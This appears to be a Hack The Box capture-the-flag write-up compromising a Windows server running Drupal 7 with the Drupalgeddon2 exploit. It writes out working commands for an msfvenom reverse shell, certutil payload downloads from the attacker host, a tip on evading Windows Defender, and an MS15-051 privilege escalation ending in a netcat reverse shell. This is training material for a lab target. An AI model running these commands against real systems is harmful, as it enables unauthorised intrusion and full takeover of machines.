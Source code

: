 #hackthebox 

# Initial Nmap Scan

![Pasted image 20230226150002](https://user-images.githubusercontent.com/71300144/221735826-50b162e2-7584-45bb-b39f-fcbe99914bd9.png)

# Website on 80

![Pasted image 20230226145848](https://user-images.githubusercontent.com/71300144/221735898-9192a8ee-a7d7-4f4a-bb92-65d8314db46c.png)

Technologies include 
- Drupal 7
- IIS 7.5
- PHP 5.3.28
- JQuery

There were quite a bit of directories that showed up in the nmap scan first to check out is robots.txt

![Pasted image 20230226150140](https://user-images.githubusercontent.com/71300144/221735945-bb3cd635-9902-4f09-930e-597cf52e0fa7.png)

The Disallow entires

![Pasted image 20230226150235](https://user-images.githubusercontent.com/71300144/221735996-2cb9823a-ea2f-4eee-ba0c-6ece8ce6057d.png)

After checking out all of these entires and running sqlmap on the login page I decided to look at searchsploit since I was having no luck at finding an vulnerability.

# Searchsploit Drupal 7
I saw that there was a ton of exploits available for Drupal 7 and that there was remote code execution RCE 

![Pasted image 20230227185430](https://user-images.githubusercontent.com/71300144/221736047-4a1c2ded-3a7d-488c-9e2a-3dc81febc7cd.png)

The RCE execution was written in PHP and requires authenticated access which I was unable to get as I was not able to create an account.

- After a ton of googling and trying different Drupal exploits I found one that worked located here --> https://github.com/lorddemon/drupalgeddon2/blob/master/drupalgeddon2.py

Fire off the Exploit `python3 drupelgeddon2.py http://10.10.10.9 -c "whoami"`

![Pasted image 20230227192853](https://user-images.githubusercontent.com/71300144/221736092-c6089d98-400b-4338-9b21-8cd770460fa4.png)

There it is Finally command execution, now lets make a reverse shell download it and  execute it.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -f exe > drupel.exe`

After the shell compiles, drop it on the target machine with certutil

`python3 drupelgeddon2.py http://10.10.10.9 -c "certutil.exe -urlcache -f http://10.10.14.7:8081/drupel.exe drupel.exe"`

As I was doing this I realized I did not know wher I was dropping this executable on the system but decided to just try and run it anyway to see if it worked and it did lickily. If not I would have to find a directory I can write in or make another directory.

Now it is time to execute the reverse shell that I dropped on the machine

`python3 drupelgeddon2.py http://10.10.10.9 -c ".\drup.exe"  `

![Pasted image 20230226161438](https://user-images.githubusercontent.com/71300144/221736185-ea7f380b-ba79-4550-af06-3455b82c5e51.png)

# Post Enumeration

lets upload winPEAS dowload or locate winpeas on your system 

host a a simple http server to pull from `python3 -m http.server 8081`

download winpeas `certutil -urlcache -f http://10.10.14.7:8081/winPEAS.bat winpeas.bat`

run winpeas `.\winpeas.bat`

On almost all windows machines I find that winPEAS.exe will trigger windows defender and will not be able to run but I have not had a problem with winpeas.bat so it is my go too.

![Pasted image 20230227195103](https://user-images.githubusercontent.com/71300144/221736240-939a3140-de8d-4a7b-b71e-23590b3915da.png)

After running and trying multiple kernal exploits, losing my shell multiple times and throwing exploits at it, I found one that works, which took me a couple of hours, but I did it!!

![Pasted image 20230227195643](https://user-images.githubusercontent.com/71300144/221736299-76c0b1f1-cb91-4423-a193-07ed250d74d4.png)

# Kernal Exploit MS15-051

I performed the following to get a NT Authority/System

- spin up a simple http server and host the exploit MS15-051 and use target system with certutil to download

Executable found --> https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

- C:\temp>`certutil -urlcache -f http://10.10.14.7:8081/nc.exe nc.exe`
	

- C:\temp>`certutil -urlcache -f http://10.10.14.7:8081/ms15-051x64.exe ms15.exe`
	

- Set up a nc listener and use the below command to fire the exploit.

`C:\temp>ms15.exe "nc.exe 10.10.14.7 4444 -e cmd.exe`

![Pasted image 20230227184426](https://user-images.githubusercontent.com/71300144/221736361-d29498b1-35b9-4934-991b-27ce06437fe4.png)

# Box Owned!

